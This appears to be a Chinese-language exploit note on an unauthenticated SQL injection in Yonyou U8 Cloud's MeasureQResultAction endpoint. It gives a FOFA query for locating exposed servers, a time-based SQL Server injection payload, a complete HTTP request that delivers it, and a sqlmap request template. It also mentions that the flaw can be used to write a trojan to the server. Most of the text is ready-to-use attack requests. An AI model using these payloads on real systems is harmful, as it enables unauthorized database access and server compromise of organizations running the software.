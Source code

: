 ## Y30-2用友-U8Cloud-SQL

漏洞描述：

用友U8 Cloud nc.ui.iufo.query.measurequery.MeasureQResultAction 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。
fofa语法：

title=="U8C"

payload:

```
%27);WAITFOR+DELAY+%270:0:5%27--

语法为SQL server延时注入语句
```

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQResultAction&method=execute&selectQueryCondition=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20240902193829541](C:\Users\yun\AppData\Roaming\Typora\typora-user-images\image-20240902193829541.png)

sqlmap:

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQResultAction&method=execute&selectQueryCondition=1* HTTP/1.1
Host: *
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: *
x-forwarded-for: 127.0.0.1
Connection: close
```

![image-20240905192249321](C:\Users\yun\AppData\Roaming\Typora\typora-user-images\image-20240905192249321.png)
